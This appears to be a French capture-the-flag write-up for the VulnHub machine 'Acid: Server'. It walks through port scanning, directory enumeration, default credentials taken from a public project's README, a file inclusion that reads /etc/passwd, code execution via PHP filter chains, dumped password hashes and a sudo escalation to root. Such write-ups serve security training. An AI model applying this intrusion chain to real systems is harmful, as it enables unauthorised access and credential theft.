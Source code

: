 ```yaml
---
title: Solution du CTF Acid: Server de VulnHub
date: 2023-01-02 12:00:00
tags: [CTF,VulnHub]
---
```


[Server](https://vulnhub.com/series/acid,64/) est le premier CTF d'un duo proposé sur VulnHub sous la série *Acid*. Le CTF date du mois d'aout 2015.

```
Nmap scan report for 192.168.56.91
Host is up (0.00017s latency).
Not shown: 65534 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
33447/tcp open  http    Apache httpd 2.4.10 ((Ubuntu))
|_http-title: /Challenge
|_http-server-header: Apache/2.4.10 (Ubuntu)
```

On trouve un serveur HTTP sur un port non standard. La page d'index ne semble donner aucune information intéressante mais en regardant le code source on voit que le titre fait référence à un path :

```html
	<title>/Challenge</title>
```

Cela devient effectivement plus intéressant quand on se rend sur cette URL puisque l'on tombe sur une mire de login qui demande adresse email et mot de passe.

L'interface semble assez poussée graphiquement et techniquement avec l'utilisation d'une librairie javascript qui chiffre le mot de passe en sha512 pour qu'il ne transite pas en clair sur le réseau.

Les champt du formulaire ne semblent pas vulnérables à une injection SQL et comme je n'ai pas d'adresse email sous la main je m'oriente vers une énumération :

```
200       40l       80w     1333c http://192.168.56.91:33447/Challenge/index.php
200       12l       27w      309c http://192.168.56.91:33447/Challenge/error.php
200       40l       80w     1333c http://192.168.56.91:33447/Challenge/
302        0l        0w        0c http://192.168.56.91:33447/Challenge/include.php
200        3l        3w       17c http://192.168.56.91:33447/Challenge/.gitignore
200     2231l    12761w   811880c http://192.168.56.91:33447/Challenge/bg.jpg
200       36l      503w     2954c http://192.168.56.91:33447/Challenge/todo.txt
```

Le fichier texte est intéressant puisqu'on y retrouve une adresse email :

> TODO List
> =========
> 
> IMPORTANT: IF ANYONE WANTS TO START WORK ON ANY OF THESE THINGS, PLEASE LET ME KNOW (peredur@peredur.net) SO THAT I CAN KEEP TRACK ON WHO'S WORKING ON WHAT.
> 
> I'D HATE TO HAVE TO CHOOSE BETWEEN TWO COMPETING VERSIONS OF THE SAME THING.
> 
> --- snip ---

Une recherche sur Internet pour cette adresse email m'amène sur le projet [GitHub - peredurabefrog/phpSecureLogin: A secure login module for PHP](https://github.com/peredurabefrog/phpSecureLogin).

Ce qui m'intéresse se trouve à la fin du `README` :

> The code to create and populate the necessary tables is included in the 'secure_login.sql' file. It populates the members table with a single user with the following details:
> 
> Username : test_user Email : [test@example.com](mailto:test@example.com) Password : 6ZaxN2Vzm9NUJT2y

Si on saisit ces identifiants on est redirigé vers `protected_page.php` qui nous propose alors d'aller vers `include.php`.

Là un formulaire nous propose de saisir le chemin pour un fichier et si on saisit par exemple `/etc/passwd` on retrouve le contenu du fichier dans la page :

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
--- snip ---
whoopsie:x:109:118::/nonexistent:/bin/false
acid:x:1000:1000:acid,,,:/home/acid:/bin/bash
mysql:x:111:126:MySQL Server,,,:/nonexistent:/bin/false
saman:x:1001:1001:,,,:/home/saman:/bin/bash
```

Je suis passé directement à un chainage de filtres PHP pour obtenir un RCE de cette faille d'inclusion (voir [GitHub - synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)).

Une fois un shell récupéré je récupère le mot de passe de la base de données (`mahek`) dans un fichier de configuration et je dump ce qui peut être utile :

```
mysql> select * from members;
+----+-----------+------------------------+----------------------------------------------------------------------------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------+
| id | username  | email                  | password                                                                                                                         | salt                                                                                                                             |
+----+-----------+------------------------+----------------------------------------------------------------------------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------+
|  1 | test_user | test@example.com       | 00807432eae173f652f2064bdca1b61b290b52d40e429a7d295d76a71084aa96c0233b82f1feac45529e0726559645acaed6f3ae58a286b9f075916ebf66cacc | f9aab579fc1b41ed0c44fe4ecdbfcdb4cb99b9023abb241a6db833288f4eea3c02f76e0d35204a8695077dcf81932aa59006423976224be0390395bae152d4ef |
|  2 | Acid      | acid@gmail.com         | 53b9bd4416ec581838c4bde217e09f1206b94cdb95475cddda862894f4dbbeec5ceacc2e116a64cb56d8384404738c5fd16478e0266962eeb3b61da1918d5931 | 8a93f1fa3259a90d9cfafcc1ef43dfc2d0a2d6cba0e8f2f9c23ae6b701364aa278bf5629585c3663ae3df5c7a3734ca6af4019d7ef897f45cb0acc056c3e735f |
|  3 | saman     | saman.j.l33t@gmail.com | c124191d7a267cb2b83b2c59a30b2e388b77f13955340015462bffc0d90cfa7b402ecb8e3fc82717f22b127c98a4afa9ed4f3661d824c6c57a1490f9963d9234 | be02c5499ba4fd559dc7809a7fae01d6f251e781dbdf5a7af2c7bca320006f1a5275d8020d5c539d116e54b1bf775018349c721151d9111ad1c3da8f6b9c9697 |
|  4 | Vivek     | vik.create@gmail.com   | fb8db054a75254633052d951002065109cd96fe990bf5a5d5bd1581d3578235a69224784b29870046d21d95567cdfe292221fbabce17201b23ca0fd5ee4fa20e | c72ccb8eb5ac065eca5341ff8ed296648b92bc99b511300a4525e8c17679ecce06e8038e582b539acf17008f9fd3a394d912f1158ef7f3d16d5f66ba32ca18bb |
+----+-----------+------------------------+----------------------------------------------------------------------------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------+
```

Idem pour les autres comptes SQL :

```
mysql> select User,Password from mysql.user;
+------------------+-------------------------------------------+
| User             | Password                                  |
+------------------+-------------------------------------------+
| root             | *C585694D9A2AB16831EAB1361DEC1908BE17F739 |
| root             | *C585694D9A2AB16831EAB1361DEC1908BE17F739 |
| root             | *C585694D9A2AB16831EAB1361DEC1908BE17F739 |
| acid             | *616B4539A8036DB2A22866D602041053E22D4D51 |
| debian-sys-maint | *97C926204D749AEFD0C330150D4CB3D7B5C57124 |
+------------------+-------------------------------------------+
```

Les hashs stockés dans la table members sont du `sha512` avec un salt comme l'indique la source du code utilisé :

```php
function login($email, $password, $mysqli) {
    // Using prepared statements means that SQL injection is not possible.
    if ($stmt = $mysqli->prepare("SELECT id, username, password, salt
                                  FROM members
                                  WHERE email = ? LIMIT 1")) {
        $stmt->bind_param('s', $email);  // Bind "$email" to parameter.
        $stmt->execute();    // Execute the prepared query.
        $stmt->store_result();

        // get variables from result.
        $stmt->bind_result($user_id, $username, $db_password, $salt);
        $stmt->fetch();

        // hash the password with the unique salt.
        $password = hash('sha512', $password . $salt);
```

J'ai tenté de casser ça avec `hashcat` sur `Penglab` sans succès.

Finalement j'ai trouvé un fichier intéressant en listant les fichiers de l'utilisateur `acid` (il a beaucoup de fichiers dont certains liés à vmware) :

```shellsession
www-data@acid:/var/www/html/Challenge$ find / -user acid 2> /dev/null  | grep -v vmware
/sbin/raw_vs_isi/hint.pcapng
/bin/pwn_me
/bin/pwn_me/chkrootkit.lsm
--- snip ---
```

On peut ouvrir le fichier pcapng avec `Wireshark` mais ici un simple `strings` suffira pour fouiller son contenu. Je trouve la phrase suivante :

> saman and now a days he's known by the alias of 1337hax0r

L'alias en question est accepté comme mot de passe qui nous mène à root :

```shellsession
www-data@acid:/var/www/html/Challenge$ su saman 
Password: 
saman@acid:/var/www/html/Challenge$ sudo -l
[sudo] password for saman: 
Matching Defaults entries for saman on acid:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User saman may run the following commands on acid:
    (ALL : ALL) ALL
saman@acid:/var/www/html/Challenge$ sudo su
  ____                            _         _       _   _                 
 / ___|___  _ __   __ _ _ __ __ _| |_ _   _| | __ _| |_(_) ___  _ __  ___ 
| |   / _ \| '_ \ / _` | '__/ _` | __| | | | |/ _` | __| |/ _ \| '_ \/ __|
| |__| (_) | | | | (_| | | | (_| | |_| |_| | | (_| | |_| | (_) | | | \__ \
 \____\___/|_| |_|\__, |_|  \__,_|\__|\__,_|_|\__,_|\__|_|\___/|_| |_|___/
                  |___/                                                   
root@acid:/var/www/html/Challenge# cd /root
root@acid:~# ls
flag.txt
root@acid:~# cat flag.txt 


Dear Hax0r,


You have successfully completed the challenge.

I  hope you like it.


FLAG NAME: "Acid@Makke@Hax0r"


Kind & Best Regards

-ACID
facebook: https://facebook.com/m.avinash143
```

*Publié le 2 janvier 2023*
